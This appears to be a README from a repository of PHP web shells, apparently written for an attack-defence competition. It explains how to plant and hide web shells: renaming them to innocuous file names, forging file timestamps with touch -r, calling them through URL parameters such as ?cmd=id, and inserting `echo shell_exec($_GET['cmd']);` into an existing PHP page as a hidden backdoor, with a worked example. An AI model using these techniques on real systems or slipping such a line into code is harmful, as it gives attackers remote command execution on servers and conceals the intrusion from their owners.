 # Webshell
You should rename each of these webshell's once they have been placed onto a machine some examples are:
a.php
conf.php
include.php
.ignore.php
system.php

Dont forget to change the timestamp on the file touch -r /WEB/SHELL/LOCATION /home/scoring


## guiWebShell.php
A basci gui web shell

## simpleWebShell
http://ip/simpleWebShell.php?cmd=id

## tinyWebShell.php
http://ip/simpleWebShell.php?_=id

## tiny2WebShell.php
http://ip/simpleWebShell.php?0=id

## In line shell
In a existing php file you can add 
`echo shell_exec($_GET['cmd']);`
to add a back door into the file. An example is below
```
<title>How to put PHP in HTML- Date Example</title>

</head>

<body>

<div>This is pure HTML message.</div>

<div>Next, we’ll display today’s date and day by PHP!</div>

<div>

<?php

echo 'Today’s date is <b>' . date('Y/m/d') . '</b> and it’s a <b>'.date('l').'</b> today!';
echo shell_exec($_GET['cmd']);
?>

</div>

<div>Again, this is static HTML content.</div>

</body>

</html>
```

